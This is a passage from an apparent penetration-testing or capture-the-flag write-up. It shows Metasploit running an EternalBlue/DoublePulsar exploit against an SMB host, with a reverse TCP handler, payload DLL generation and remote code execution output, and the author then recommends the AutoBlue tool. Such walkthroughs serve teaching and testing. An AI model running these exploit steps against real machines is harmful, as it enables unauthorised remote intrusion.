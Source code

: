 

On another attempt, it even finds the backdoor, but still returns no
shell:



    msf5 exploit(windows/smb/eternalblue_doublepulsar) > run
                                             
    [*] Started reverse TCP handler on 10.254.1.47:4444
    [*] 10.1.1.13:445 - Generating Eternalblue XML data
    [*] 10.1.1.13:445 - Generating Doublepulsar XML data
    [*] 10.1.1.13:445 - Generating payload DLL for Doublepulsar
    [*] 10.1.1.13:445 - Writing DLL in /root/.wine/drive_c/eternal11.dll
    [*] 10.1.1.13:445 - Launching Eternalblue...
    [+] 10.1.1.13:445 - Backdoor is already installed
    [*] 10.1.1.13:445 - Launching Doublepulsar...
    [+] 10.1.1.13:445 - Remote code executed... 3... 2... 1...
    [*] Exploit completed, but no session was created.



The fact that the exploit recognizes the backdoor tells me that the
exploit is working, but that something on my machine isn't configured
correctly. I expected showing Metasploit to be the easier path. At this
point, I'd tell you, just use AutoBlue!





